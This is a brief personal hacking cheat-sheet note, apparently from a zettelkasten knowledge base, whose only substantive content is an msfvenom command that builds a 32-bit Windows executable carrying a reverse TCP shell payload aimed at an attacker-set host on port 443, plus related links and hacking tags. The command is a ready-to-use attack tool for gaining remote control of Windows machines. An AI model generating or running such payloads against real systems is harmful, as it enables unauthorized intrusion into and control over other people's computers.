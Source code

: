 # MSFVENOM Windows Binary (.exe) executable 32 Bit (x86) Reverse Shell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f exe -o shell.exe
```

` zet/20221003150774/README.md `

# Related

- [20221003150775](/zet/20221003150775/README.md) MSFVENOM Windows Binary (.exe) executable 32 Bit (x86)
- ~/kb/hacking/commands/msfvenom-commands.md

Tags:

    #command #hacking #msfvenom 
